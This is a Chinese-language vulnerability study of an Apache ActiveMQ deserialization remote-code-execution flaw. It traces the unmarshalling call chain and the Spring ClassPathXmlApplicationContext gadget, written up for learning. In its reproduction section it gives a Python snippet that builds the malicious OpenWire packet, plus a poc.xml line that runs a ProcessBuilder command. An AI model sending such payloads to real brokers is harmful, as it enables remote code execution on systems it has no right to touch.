# 一、漏洞分析

首先查看官方的修改：
https://github.com/apache/activemq/commit/958330df26cf3d5cdb63905dc2c6882e98781d8f





createThrowable()根据传入参数，调用名为clazz的类的以spring为参数的构造函数，来构造一个clazz对象并返回。如果在项目中存在一个类，其构造函数有一些副作用可以被利用，那么攻击者就可能实现RCE。

补丁中增添了一个工具函数，用于在创建一个clazz类型的对象之前，检查这个类是否是Throwadle的一个子类。从而防止攻击者通过控制clazz参数来创建任意类的对象。

下面将一步步从下往上分析漏洞的触发点。

首先查看createThrowable()的调用者：



有两处调用，分别是tightUnmarsalThrowable和looseUnmarsalThrowable:

* Tight (严格)：意味着精确、完整、不失真。会尽可能完整、准确地还原原始异常的所有信息。
* Loose (宽松)：意味着允许一定程度的失真或信息丢失，以换取更高的兼容性、鲁棒性或简单性。

可以见得looseUnmarsalThrowable会更简单，所以选择分析looseUnmarsalThrowable这条路径。



looseUnmarsalThrowable函数先从dataIn中读取一个布尔值，这个布尔值标志其后方是否还有数据，若这个布尔值为真，则继续从dataIn中读取到clazz和massage。

具体如何读取clazz和massage?查看looseUnmarshalString函数：



也是先读取标志位，然后再读取一个UTF-8的字符串，如何读取字符串？查看readUTF函数：



先读取一个unsignedshort类型为length，表示接下来的字符串的长度，然后根据length读取接下来的字符串，并返回。

到目前为止，一个序列化的对象的字段为：

```
    bool (标志是否有内容)
    bool (标志是否有clazz)
    unsignedshort length (表示clazz的长度)
    clazz字符串的内容
    bool (标志是否有message)
    unsignedshort length (表示message的长度)
    message字符串的内容
```

接着查找looseUnmarsalThrowable的调用者：



因为是为了利用漏洞，尽可能得像更简单地利用，所以我们仍然选择较简单得一条路径进行分析，分析ExceptionResponseMarshaller类的looseUnmarshal方法：



先调用父类的同名函数，再调用looseUnmarsalThrowable并设置info.Exception，查看其父类同名函数：



也是先调用其父类同名函数，然后读取一个int，并设置info.CorrelationId。

这里不在继续逐个展示其父类同名函数，都是从字节流中读取一个字段然后设置info的某一个属性。

到此为止，一个正常的序列化字节流应该是：

```
    int (CommandId)
    bool (ResponseRequired)
    int (CorrelationId)
    bool (标志是否有内容)
    bool (标志是否有clazz)
    unsignedshort length (表示clazz的长度)
    clazz字符串的内容
    bool (标志是否有message)
    unsignedshort length (表示message的长度)
    message字符串的内容
```
继续查找looseUnmarshal的调用者：



分析doUnmarshal：



首先读取一个字节为datatype，然后根据datatype得到对应的dsm（是一个类）,也就是dataStreamMarshallers。之后通过dsm来调用相应类的方法。

之前分析过了，有ConnectionErrorMarshaller、ExceptionResponseMarshaller、MessageAckMarshaller这三个类有looseUnmarshal方法，且我们之前分析的是ExceptionResponseMarshaller类的looseUnmarshal方法，所以我们希望通过datatype得到的dsm是ExceptionResponseMarshaller，这样dsm.looseUnmarshal调用的就是ExceptionResponseMarshaller.looseUnmarshal。

datatype为何时，dsm才会是ExceptionResponseMarshaller？以及this.tightEncodingEnabled是什么？
待会动态调试时可以得出。

到此为止，一个正常的序列化字节流应该是：

```
    byte (datatype)
    int (CommandId)
    bool (ResponseRequired)
    int (CorrelationId)
    bool (标志是否有内容)
    bool (标志是否有clazz)
    unsignedshort length (表示clazz的长度)
    clazz字符串的内容
    bool (标志是否有message)
    unsignedshort length (表示message的长度)
    message字符串的内容
```

查看doUnmarshal的调用者：



有两处重载：





都是如果!sizePrefixDisabled为真，则读取一个Int为size，然后检查size是否合法，之后调用doUnmarshal。

到此为止，一个正常的序列化字节流应该是：

```
    int (size)
    byte (datatype)
    int (CommandId)
    bool (ResponseRequired)
    int (CorrelationId)
    bool (标志是否有内容)
    bool (标志是否有clazz)
    unsignedshort length (表示clazz的长度)
    clazz字符串的内容
    bool (标志是否有message)
    unsignedshort length (表示message的长度)
    message字符串的内容
```
继续向上：







通过以上分析发现，ActiveMQ在进行Unmarshal反序列化时，从字节流开始反序列化，到反序列化完毕创建相应对象，整个过程没有做任何过滤，如果在项目中存在一个类，其构造函数有一些副作用可以被利用，那么攻击者就可能实现RCE。

下面来找到一个类，可以被用来实现RCE。网上给出的是ClassPathXmlApplicationContext类。

```
2026/4/16-0:19
今天先到这里吧。
TODO：
分析ClassPathXmlApplicationContext类、调试查看具体执行过程。
```
在以字符传参数调用ClassPathXmlApplicationContext类的构造函数时，首先会设置configLocations,然后调用refresh(),refresh()是关键：





查看refresh()：

```java
	@Override
	public void refresh() throws BeansException, IllegalStateException {
		synchronized (this.startupShutdownMonitor) {
			StartupStep contextRefresh = this.applicationStartup.start("spring.context.refresh");

			// Prepare this context for refreshing.
			prepareRefresh();

			// Tell the subclass to refresh the internal bean factory.
			ConfigurableListableBeanFactory beanFactory = obtainFreshBeanFactory();

			// Prepare the bean factory for use in this context.
			prepareBeanFactory(beanFactory);

			try {
				// Allows post-processing of the bean factory in context subclasses.
				postProcessBeanFactory(beanFactory);

				StartupStep beanPostProcess = this.applicationStartup.start("spring.context.beans.post-process");
				// Invoke factory processors registered as beans in the context.
				invokeBeanFactoryPostProcessors(beanFactory);

				// Register bean processors that intercept bean creation.
				registerBeanPostProcessors(beanFactory);
				beanPostProcess.end();

				// Initialize message source for this context.
				initMessageSource();

				// Initialize event multicaster for this context.
				initApplicationEventMulticaster();

				// Initialize other special beans in specific context subclasses.
				onRefresh();

				// Check for listener beans and register them.
				registerListeners();

				// Instantiate all remaining (non-lazy-init) singletons.
				finishBeanFactoryInitialization(beanFactory);

				// Last step: publish corresponding event.
				finishRefresh();
			}

			catch (BeansException ex) {
				if (logger.isWarnEnabled()) {
					logger.warn("Exception encountered during context initialization - " +
							"cancelling refresh attempt: " + ex);
				}

				// Destroy already created singletons to avoid dangling resources.
				destroyBeans();

				// Reset 'active' flag.
				cancelRefresh(ex);

				// Propagate exception to caller.
				throw ex;
			}

			finally {
				// Reset common introspection caches in Spring's core, since we
				// might not ever need metadata for singleton beans anymore...
				resetCommonCaches();
				contextRefresh.end();
			}
		}
	}
```

obtainFreshBeanFactory()会加载xml中的bean：



其中的refreshBeanFactory会从xml中加载Bean定义









最终调用DOM来从xml中加载bean。

refresh中的finishBeanFactoryInitialization(beanFactory)：



1. DefaultListableBeanFactory.preInstantiateSingletons()
* 遍历 beanName，调用 getBean(beanName)
2. getBean(beanName)（在父类 AbstractBeanFactory）
* 进入 doGetBean(...)
3. AbstractBeanFactory.doGetBean(...)
* 对 singleton 走： getSingleton(beanName, () -> createBean(beanName, mbd, args))
* 这里的 createBean(...) 在 lambda 里，所以你在 preInstantiateSingletons() 看不到直接调用
4. createBean(...)（实现位于AbstractAutowireCapableBeanFactory）
* 内部调用 doCreateBean(...)
5. doCreateBean(...)（同一个类）
* 先 createBeanInstance(...)（实例化）
* 再属性填充、初始化（包括 init-method）
6. createBeanInstance(...)
* 判断有无构造参数/候选构造器
* 需要带参构造时走 autowireConstructor(...)
7. autowireConstructor(...)
* 实际委托 ConstructorResolver.autowireConstructor(...) 完成参数匹配和反射构造

 ```
 DefaultListableBeanFactory.preInstantiateSingletons
AbstractBeanFactory.doGetBean
DefaultSingletonBeanRegistry.getSingleton(String, ObjectFactory<?>)
AbstractAutowireCapableBeanFactory.createBean
AbstractAutowireCapableBeanFactory.doCreateBean
AbstractAutowireCapableBeanFactory.createBeanInstance
ConstructorResolver.autowireConstructor
```

在poc.xml中：
```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
```

1. 关键触发点：实例化非懒加载单例
* finishBeanFactoryInitialization(beanFactory) 中会执行
* beanFactory.preInstantiateSingletons()
* 默认单例 bean 都会在这里被创建。
* pb 没有声明 lazy-init="true"，所以会被立即创建。
1. 创建 ProcessBuilder 实例
* Spring 根据 BeanDefinition 反射调用构造器。
* 等价于：new ProcessBuilder(List<String>)
* 参数来自你 XML 的 <constructor-arg><list>...
1. 初始化阶段调用 init-method
* Spring 的 Bean 生命周期里，实例创建后会做初始化。
* poc.xml配置了 init-method="start"，所以 Spring 会反射执行：
  * pb.start()
1. 副作用发生
* ProcessBuilder.start() 会启动外部进程。
* XML 里配置的命令被真正执行。

```
2026/4/18-1:49
TODO:
动态调试，见#L95
```

在这两处下断点：




可以看到，当datatype为31时，dsm才会是ExceptionResponseMarshaller



# 二、漏洞复现

```
    int (size)
    byte (datatype)
    int (CommandId)
    bool (ResponseRequired)
    int (CorrelationId)
    bool (标志是否有内容)
    bool (标志是否有clazz)
    unsignedshort length (表示clazz的长度)
    clazz字符串的内容
    bool (标志是否有message)
    unsignedshort length (表示message的长度)
    message字符串的内容
```
按照以上格式构造payload，：

```python
        out.write(int(32).to_bytes(4, 'big')) # size
        out.write(bytes([31])) # type
        out.write(int(1).to_bytes(4, 'big')) #CommandId
        out.write(bool(True).to_bytes(1, 'big'))#ResponseRequired
        out.write(int(1).to_bytes(4, 'big'))#CorrelationId
        out.write(bool(True).to_bytes(1, 'big')) #标志之后是否还有内容
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
 ```

在poc.xml所在位置开启http服务：



进行攻击：



dsm命中ExceptionResponseMarshaller：



读出clazz和message：



得到ClassPathXmlApplicationContext类的构造函数：



调用构造函数：



refresh中调用obtainFreshBeanFactory：



obtainFreshBeanFactory过程中调用loadBeanDefinitions：



loadBeanDefinitions的过程不再展示,refresh中调用finishBeanFactoryInitialization



调用preInstantiateSingletons：



beanName为pb:



调用getBean:



调用createBean:



计算器成功打开：



# 三、总结

1. 加深了对反序列化漏洞的理解：可以控制所创建的对象的类型，然后利用一个有副作用(gadget)的类的构造函数，实现RCE。
2. 熟悉了代码调试。

2026/4/18-23:28